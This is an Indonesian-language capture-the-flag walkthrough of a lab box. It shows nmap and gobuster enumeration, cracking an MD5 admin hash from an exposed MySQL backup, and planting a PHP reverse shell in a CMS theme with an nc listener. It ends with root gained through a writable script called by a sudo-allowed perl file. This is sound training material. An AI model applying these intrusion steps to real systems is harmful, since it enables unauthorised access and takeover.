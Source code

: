 Scan dengan nmap seperti biasa `nmap -sV -sC 10.10.2.25 -oN zcan`

```shell
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 49:7c:f7:41:10:43:73:da:2c:e6:38:95:86:f8:e0:f0 (RSA)
|   256 2f:d7:c4:4c:e8:1b:5a:90:44:df:c0:63:8c:72:ae:55 (ECDSA)
|_  256 61:84:62:27:c6:c3:29:17:dd:27:45:9e:29:cb:90:5e (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
```

Selanjutnya kita enumerate direktori dengan `gobuster`.

```shell
gobuster dir -u http://10.10.2.25/content -w /usr/share/wordlists/dirb/small.txt | tee gobbed
```

kita hanya mendapat `/content`, untuk dapat tahu lebih jauh kita bisa enumerate lagi isi dari dir `/content` tersebut dengan gobuster

```shell
gobuster dir -u http://10.10.2.25/content -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt | tee gobbed_content
```

hasilnya

```shell
...
/images               (Status: 301) [Size: 317] [--> http://10.10.2.25/content/images/]
/js                   (Status: 301) [Size: 313] [--> http://10.10.2.25/content/js/]
/inc                  (Status: 301) [Size: 314] [--> http://10.10.2.25/content/inc/]
/as                   (Status: 301) [Size: 313] [--> http://10.10.2.25/content/as/]
/_themes              (Status: 301) [Size: 318] [--> http://10.10.2.25/content/_themes/]
/attachment           (Status: 301) [Size: 321] [--> http://10.10.2.25/content/attachment/]
...
```

Kita dapat cek ke `/inc` dengan pergi ke `http://IP-TARGET/content/inc/`. Jika kita scroll, akan ada dir mysql backup, dan didalamnya terdapat file mysql. kita dapat coba cari `user` atau `admin` untuk mencari credentials. Disini untuk lebih memudahkan, kita dapat membukanya dengan text editor, dalam hal ini saya menggunakan Sublime. Buka file `subl mysql_backup_...sql`, lalu CTRL+F untuk mencari `user` atau `admin`. hasil yang didapat adalah seperti berikut (line 79).

```sql
\\"admin\\";s:7:\\"manager\\";s:6:\\"passwd\\";s:32:\\"42f749ade7f9e195bf475f37a44cafcb\\";s:5:\\
```

Password disamarkan dengan hash, kita dapat cek jenis hash yang digunakan dengan `hashid`.

```shell
hashid "42f749ade7f9e195bf475f37a44cafcb"
...
Analyzing '42f749ade7f9e195bf475f37a44cafcb'
[+] MD2 
[+] MD5 
[+] MD4 
[+] Double MD5 
[+] LM 
[+] RIPEMD-128 
[+] Haval-128 
[+] Tiger-128 
[+] Skein-256(128)
...
```

Sepertinya, yang digunakan adalah MD5, kita dapat mencoba crack dengan hashcat

```shell
hashcat -a 0 -m 0 "42f749ade7f9e195bf475f37a44cafcb" /usr/share/wordlists/rockyou.txt
...
42f749ade7f9e195bf475f37a44cafcb:Password123
...
```

Jadi creds yang dapat digunakan adalah `manager:Password123`, selanjutnya kita dapat coba login ke `http://IP-TARGET/content/as/`. Setelah login ke dashboard admin, kita dapat setup revshell.

pergi ke tab `Theme` disebelah kiri, pada bagian dropdown `---`, pilih salah satu, dalam hal ini akan dipilih `Comment form template`, dan isi dengan revshell dari [pentestmonkey](https://github.com/pentestmonkey/php-reverse-shell). Jangan lupa untuk ganti `$ip` dan `$port` dengan tun0 atau IP LOCAL dan port pilihan. Selanjutnya kita setup listener `nc -lvnp PORT`, pastikan PORT sama dengan PORT yang ada di revshell script, lalu kita dapat pergi ke `http://IP-TARGET/content/_themes/default/comment_form.php`. Dan kita dapat revshell.

kita dapat cek user yang ada dalam target `ls /home/`, dan hasilnya `itguy`. Selanjutnya pindah ke dir `/home/itguy`, dan lakukan `ls -l`, akan ditemukan beberapa file menarik

```shell
-rw-r--r-x 1 root  root    47 nov 29  2019 backup.pl
...
-rw-rw-r-- 1 itguy itguy   16 nov 29  2019 mysql_login.txt
-rw-rw-r-- 1 itguy itguy   38 nov 29  2019 user.txt
```

`user.txt` merupakan flag user. Isi dari mysql_login.txt

```
cat mysql_login.txt
rice:randompass
```

Jika kita cek `sudo -l`, akan menghasilkan

```shell
...
(ALL) NOPASSWD: /usr/bin/perl /home/itguy/backup.pl
```

Isi dari `backup.pl` adalah

```perl
#!/usr/bin/perl

system("sh", "/etc/copy.sh");
```

Jadi file `backup.pl` ini akan menjalankan run file `/etc/copy.sh`. Kita dapat cek file permission dari file tersebut `ls -l /etc/copy.sh`, dan hasilnya kita dapat edit isi dari `copy.sh`.

Dari hasil investigasi sederhana tersebut, kita dapat memanfaatkan `/usr/bin/perl`, `backup.pl`, dan `/etc/copy.sh` untuk melakukan privesc.

Pertama kita perlu untuk edit isi dari `copy.sh` dengan

```shell
echo "/bin/bash" > /etc/copy.sh
```

Selanjutnya kita bisa run `backup.pl` dengan sudo

```shell
sudo /usr/bin/perl /home/itguy/backup.pl
```

Dan kita akan mendapatkan root shell. Root flag ada di `/root/root.txt`.